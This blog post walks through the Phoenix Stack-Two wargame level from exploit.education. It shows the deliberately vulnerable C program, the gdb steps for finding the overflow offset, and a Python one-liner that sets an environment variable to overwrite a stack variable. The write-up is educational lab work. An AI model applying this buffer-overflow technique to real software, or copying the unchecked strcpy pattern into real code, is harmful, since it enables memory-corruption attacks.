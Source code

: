 ```yaml
---
title: Phoenix Stack-Two 
author: Marius Kimmina
date: 2019-10-20 14:10:00 +0800
categories: [Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to mess with environment variables and unprintable ascii characters. Also instead of "gets" this program
uses "strcpy" to write to the buffer-variable. 

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

The difference to Stack-one is that we have to set an environment variable named ExploitEducation as described here:

```c
ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }
```

and the value of this variable will be written into the buffer-variable. I'm going to quote the bugs section for "strcpy" here, it has essentially the same problem as "gets".

```
If the destination string of a strcpy() is not large enough, then  any‐
thing  might  happen.   Overflowing  fixed-length  string  buffers is a
favorite cracker technique for taking complete control of the  machine.
Any  time  a  program  reads  or copies data into a buffer, the program
first needs to check that there's enough space.  This may  be  unneces‐
sary  if you can show that overflow is impossible, but be careful: pro‐
grams can get changed over time, in ways that may make  the  impossible
possible.
```


### 0x2 Exploiting the program

Lets start by simply trying to execute the program

```bash
$ /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

There are multiple ways to set an environment variable but since we want to take a look at it in gdb anyway, lets do it there

```
$ gdb /opt/phoenix/amd64/stack-two
(gdb) set environment ExploitEducation Awesome
```

Once this is done you run the program (still inside gdb because changing environment variables in gdb has no effect outside of gdb)

```
(gdb) run
Starting program: /opt/phoenix/amd64/stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

as you can see the prompt for setting the environment variable is gone. Now we need to figure out the right value for our ExploitEducation-variable.
First we need to know at what point exactly we start writing to the "changeme" variable. To accomplish that, use a very long and recognisable pattern.
I always suggest the alphabet. 

```
(gdb) set environment ExploitEducation AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
(gdb) run
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x51515151, we want 0x0d0a090
```

Since 0x51 is the hexadecimal equivalent to the letter Q, we know that we have to replace "QQQQ" with the correct input.  
The big problem here is that "0x0d0a090a" are non-printable characters thus we can't just append them to our alphabet string.
This took we quite some time to find a working solution and I would have liked to find a way to do it without leaving gdb but 
I could not.  
So here is my solution for this challenge setting the environment variable with our alphabet string followed by the hexadecimal value decoded in python:


```
$ export ExploitEducation=`python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("0a090a0d").decode("hex")'`
$ /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



